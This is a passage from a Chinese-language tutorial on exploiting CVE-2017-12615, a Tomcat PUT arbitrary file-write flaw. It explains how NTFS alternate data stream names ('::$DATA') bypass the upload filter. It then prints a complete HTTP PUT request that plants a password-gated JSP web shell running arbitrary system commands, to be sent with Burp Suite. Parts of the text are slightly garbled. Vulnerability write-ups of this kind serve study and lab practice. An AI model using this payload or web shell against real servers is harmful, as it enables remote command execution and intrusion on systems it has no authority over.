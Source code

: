 (7)Tomcat服务器配置。打开Tomcat安装目录下的 /conf/web.xml 添加如下配置：

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId29.png)

#### 漏洞利用

##### 上传姿势一：

参考思路:微软MSDN上关于NTFS
Streams的一段资料<https://msdn.microsoft.com/en-us/library/dn393272.aspx>

大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流
- 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

    Copy to clipboard<filename>：<stream name>：<stream type>

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型\$
INDEX\_ALLOCATION。\$ INDEX\_ALLOCATION类型（目录流）的默认流名称是\$
I30。（这与\$
DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

    Copy to clipboardDir C：\ Users
    Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
    Dir C：\ Users :: $ INDEX_ALLOCATION

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/
R选项从命令行观察。

payload:

    PUT /shell.jsp::$DATA HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 662  
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp  
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>

我们利用burpsuite来发送我们的payload
